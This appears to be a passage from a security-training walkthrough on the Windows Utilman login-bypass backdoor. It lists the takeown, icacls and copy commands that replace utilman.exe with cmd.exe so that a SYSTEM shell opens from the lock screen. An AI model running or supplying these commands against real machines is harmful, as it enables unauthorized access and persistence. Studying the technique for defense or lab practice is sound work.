 #### What is Utilman?
Utilman is a built-in Windows application used to ***provide Ease of Access options during the lock screen***. When we click the ease of access button on the login screen, it executes `C:\Windows\System32\Utilman.exe` with SYSTEM privileges. If we ***replace it with a copy of `cmd.exe`***, we can bypass the login screen again.

**To replace the `utilman.exe`, we need to do the same as we did on `Sticky Keys`**

#### 1. Take Ownership of Utilman.exe
```cmd
takeown /f c:\Windows\System32\utilman.exe
```

#### 2. Grant Full Permission
```cmd
icacls C:\Windows\System32\utilman.exe /grant Administrator:F
```

#### 3. Replace the Utilman.exe
```cmd
copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
```

4. To trigger our terminal, we will lock our screen from the start button.
5. Click on the `Ease of Access` button. Since we replaced `Utilman.exe` with `cmd.exe`, we will get a command prompt with SYSTEM privileges.